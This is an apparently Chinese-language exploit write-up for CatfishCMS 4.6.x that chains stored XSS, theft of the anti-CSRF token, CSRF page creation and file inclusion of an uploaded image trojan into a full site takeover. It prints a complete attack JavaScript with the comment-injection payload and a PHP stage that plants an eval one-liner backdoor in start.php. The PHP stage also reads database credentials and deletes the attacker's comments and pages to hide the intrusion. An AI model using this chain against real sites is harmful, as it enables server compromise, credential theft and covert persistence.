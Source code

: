 CatfishCMS 4.6.15 csrf getshell
===============================

一、漏洞简介
------------

在测试的过程中发现更新版本的时候作者添加一个参数 verification
可能是用来防治csrf。嗯，不得不说，作者安全意识提高了，用来防治csrf这的却是一个好思路，但是对于我们可以执行xss来说，verification
就显的苍白无力了，因为我们可以先获取verification 然后在执行csrf 从而来绕过。

二、漏洞影响
------------

CatfishCMS 4.6

三、复现过程
------------

### 漏洞分析

文件：CatfishCMS-4.6.12\\catfish\\library\\think\\Template.php

函数：fetch()

![](./.resource/CatfishCMS4.6.15csrfgetshell/media/rId25.png)

![](./.resource/CatfishCMS4.6.15csrfgetshell/media/rId26.png)

![](./.resource/CatfishCMS4.6.15csrfgetshell/media/rId27.png)

![](./.resource/CatfishCMS4.6.15csrfgetshell/media/rId28.png)

![](./.resource/CatfishCMS4.6.15csrfgetshell/media/rId29.png)

![](./.resource/CatfishCMS4.6.15csrfgetshell/media/rId30.png)

嗯，说完了。Fetch方法最后都会编译文件以后通过PHP输出，所以如果我们可以在他编译之前写入恶意代码 那么就可以为所欲为。

### 复现

前台注册一个账户-\>注册一个图片马到网站中-\>评论处插入xss代码-\>等待无辜管理员登录网站-\>获取
verification(绕过检测)-\>管理员入口-页面管理-新建页面-csrf插入一条非法语句引起包含漏洞(用来包含前面的图片马)-\>包含漏洞执行代码-\>包含漏洞添加getshell\_code.php文件写入恶意代码-\>包含漏洞-将框架文件start.php添加一句话木马-包含数据库配置文件-连接数据库-\>删除我们前面的评论-\>删除我们csrf创建的页面-\>邮件通知我们-\>getshell

CatfishCMS-4.6.12-xss.js

    /*  
        需要插入的xss代码
        <img src="#" alt="xss_csrf_getshll" onerror="var url = 'http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/CatfishCMS-4.6.12-xss.js';xss_js = '<scr'+'ipt src='+url+'><\/sc'+'ript>';$('body').append(xss_js);">
    */ 

    //不用动的
    var articles = 'index.php/admin/Index/articles.html';//用来获取 verification 绕过检测
    var newpage = 'index.php/admin/Index/newpage.html';//生成文章地址
    var allpage = 'index.php/admin/Index/allpage.html';//获取文章链接

    //需要改的
    var url = 'http://0-sec.org';//你要日的站的域名
    var directory = '/cms/CatfishCMS-4.6.12/'; //日的站的额外目录一般为空即可(站点设置二级目录时，此目录要填写)
    var img_trojan_url = '../../../'+'data/uploads/20171201/2c8b7c7f1d49faeb5321ce0c9b1962af.jpg';//图片马的地址 修改 + 号后面的即可
    var getshell_code = 'http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/getshell_code.txt';//恶意代码远程包含的地址

    $('body').append('<div id="csrf_verification" style="display:none;"></div>');
    $('body').append('<div id="csrf_allpage" style="display:none;"></div>');

    $.ajax({
        url: url+directory+articles,
        dataType: "json",
        success: function(verification_content){
            $('#csrf_verification').append(verification_content);
            var verification = $('#verification').html();//用来绕过验证的
            // alert(verification);

            //csrf生成文章,引起文件包含漏洞
            $.ajax({
                type: "POST",
                url: url+directory+newpage,
                data: {
                    'biaoti':'xss_csrf_getshll',
                    'template':img_trojan_url,
                    'verification':verification,
                    'fabushijian':'2017-12-05 11:56:48'
                },
                success: function(){
                    //csrf获取shell链接
                    $.ajax({
                        type: "POST",
                        url: url+directory+allpage,
                        success: function(allpage_content){
                            $('#csrf_allpage').append(allpage_content);
                            var shell_id = $('#csrf_allpage .table-responsive .table-bordered tbody tr td .gouxuan').eq(0).val();
                            var shell_url = $('#csrf_allpage .table-responsive .table-bordered tbody tr td a').eq(0).attr('href');

                            var shell_content = '';
                                shell_content+= "$myfile = fopen('getshell_code.php', 'w');";
                                shell_content+= '$txt = '+'file_get_contents("'+getshell_code+'");';
                                shell_content+= 'fwrite($myfile, $txt);';
                                console.log(shell_content);
                            
                            //执行shell 生成马子
                            $.ajax({
                                type: "POST",
                                url: url+shell_url,
                                dataType: "json",
                                data: {'ddd':shell_content},
                                success: function(data){
                                    $.ajax({
                                        type: "GET",
                                        url: url+directory+'getshell_code.php',
                                        dataType: "json", 
                                        // data: {'zzz':1}
                                    });
                                },
                                error: function(){
                                    $.ajax({
                                        type: "GET",
                                        url: url+directory+'getshell_code.php',
                                        dataType: "json", 
                                        // data: {'zzz':1}
                                    });
                                }   
                            });

                        } 
                    });

                } 
            });

        }
    });

![](./.resource/CatfishCMS4.6.15csrfgetshell/media/rId32.png)

![](./.resource/CatfishCMS4.6.15csrfgetshell/media/rId33.png)

写好以后模拟管理员，进入后台

![](./.resource/CatfishCMS4.6.15csrfgetshell/media/rId34.png)

![](./.resource/CatfishCMS4.6.15csrfgetshell/media/rId35.png)

![](./.resource/CatfishCMS4.6.15csrfgetshell/media/rId36.png)

![](./.resource/CatfishCMS4.6.15csrfgetshell/media/rId37.png)

getshell\_code

    <?php  
        $start_content = file_get_contents('catfish/start.php').'eval(@$_POST[ddd]);';
        $start = fopen('catfish/start.php', 'w');
        fwrite($start, $start_content);
        if( @$_GET[zzz]){
            $config = require_once("application/database.php");
            //分别对应的是 地址，端口号，连接的数据库，编码
            $dsn = "mysql:host={$config['hostname']}; port={$config['hostport']}; dbname={$config['database']}; charset={$config['charset']}";
            $user = $config['username'];
            $psw = $config['password'];
            $pdo = new PDO($dsn,$user,$psw);
            $sql = "DELETE from catfish_posts WHERE post_title LIKE '%xss_csrf_getshll%'";
            $sql_1 = "DELETE from catfish_comments WHERE content LIKE '%xss_csrf_getshll%'";
            $pdo->query($sql);
            $pdo->query($sql_1);
            unlink('getshell_code.php');
        }
    ?>

![](./.resource/CatfishCMS4.6.15csrfgetshell/media/rId38.png)

连接马子的操作，这个文件会在index.php中给引入所以直接

    http://0-sec.org/index.php

    POST

    ddd = 你要执行的命令

![](./.resource/CatfishCMS4.6.15csrfgetshell/media/rId39.png)

![](./.resource/CatfishCMS4.6.15csrfgetshell/media/rId40.png)
